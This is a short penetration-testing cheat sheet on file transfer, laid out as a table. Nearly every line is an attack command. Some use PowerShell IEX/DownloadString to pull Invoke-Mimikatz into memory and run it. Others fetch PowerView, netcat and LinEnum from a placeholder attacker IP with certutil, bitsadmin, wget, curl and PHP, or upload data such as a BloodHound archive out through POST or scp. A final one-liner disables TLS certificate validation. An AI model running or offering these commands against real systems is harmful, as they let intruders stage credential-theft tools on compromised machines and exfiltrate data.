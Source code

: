 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<IP>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://<IP>/nc.exe` | Download a file using Certutil |
| `wget http://<IP>/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh http://<IP>/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<IP>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@<IP>:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`. |

> Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:  
> `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
